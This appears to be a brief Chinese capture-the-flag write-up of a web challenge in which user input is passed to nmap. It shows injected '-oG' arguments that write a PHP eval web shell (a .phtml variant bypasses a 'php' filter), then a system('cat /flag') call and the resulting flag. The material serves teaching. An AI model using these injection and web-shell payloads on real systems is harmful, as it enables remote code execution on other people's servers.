 ![](<./img/Pasted image 20221127120248.png>)

---
首页长这样

![](<./img/Pasted image 20221127120317.png>)

---
尝试判断是否可注入（废话，显然可以
```php
localhost' #
```

![](<./img/Pasted image 20221127121511.png>)

```php
' -oG shell.php <?php eval($_GET["cmd"]);?> #
```
> Hacker...

emmm，大意了

应该是把php过滤掉了

```php
' -oG shell.phtml <? eval($_GET["cmd"]);?> #
```
> Host maybe down

```php
/shell.phtml?cmd=system('cat /flag');
```
> \# Nmap 6.47 scan initiated Sun Nov 27 04:26:32 2022 as: nmap -Pn -T4 -F --host-timeout 1000ms -oX xml/824ef -oG shell.phtml \ flag{b868b5bd-41f0-4933-97f5-930bd42b73a3}
> \#'
> \# Nmap done at Sun Nov 27 04:26:33 2022 -- 0 IP addresses (0 hosts up) scanned in 0.90 seconds

氵就完事儿了.jpg

#Web #RCE #PHP #bypass #nmap